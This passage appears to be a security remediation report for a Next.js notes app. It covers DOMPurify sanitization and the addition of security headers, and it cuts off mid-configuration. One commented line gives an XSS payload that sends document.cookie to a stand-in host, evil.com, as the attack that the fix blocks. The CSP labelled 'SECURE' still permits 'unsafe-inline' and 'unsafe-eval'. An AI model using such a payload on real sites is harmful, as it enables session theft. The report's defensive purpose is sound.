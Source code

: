 **Security Impact:**
- 🔴 **CRITICAL** → 🟢 **RESOLVED**
- **Prevented Attacks:**
  - Cross-Site Scripting (XSS)
  - Session hijacking via stolen cookies
  - Malicious script injection
  - Data exfiltration
- **Attack Vector Eliminated:**
  ```javascript
  // This XSS payload no longer executes:
  // User creates note: <script>fetch('https://evil.com/?cookie='+document.cookie)</script>
  // AI returns note in response → DOMPurify strips <script> tags
  ```

**DOMPurify Configuration:**
- **Allowed Tags:** Only safe HTML formatting tags (p, strong, em, headings, lists)
- **Allowed Attributes:** None (prevents onclick, href, etc.)
- **Library:** `isomorphic-dompurify` (works in both browser and server)

---

### 5. ✅ Deploy Security Headers (HIGH-8)

**Files Modified:**
- `next.config.ts`

**Before (VULNERABLE):**
```typescript
// ❌ No security headers configured
const nextConfig: NextConfig = {
  /* config options here */
};
```

**After (SECURE):**
```typescript
// ✅ Comprehensive security headers
const nextConfig: NextConfig = {
  async headers() {
    return [
      {
        source: '/(.*)',
        headers: [
          {
            key: 'Content-Security-Policy',
            value: "default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self' data:; connect-src 'self' https://qvzhldafxxhoyslqwxly.supabase.co https://api.openai.com; frame-ancestors 'none';"
          },
          {
            key: 'X-Frame-Options',
            value: 'DENY',
          },
          {
            key: 'X-Content-Type-Options',
            value: 'nosniff',
          },
          {
            key: 'Referrer-Policy',
            value: 'strict-origin-when-cross-origin',
          },
          {
            key: 'Permissions-Policy',
            value: 'camera=(), microphone=(), geolocation=()',
          },
          {
```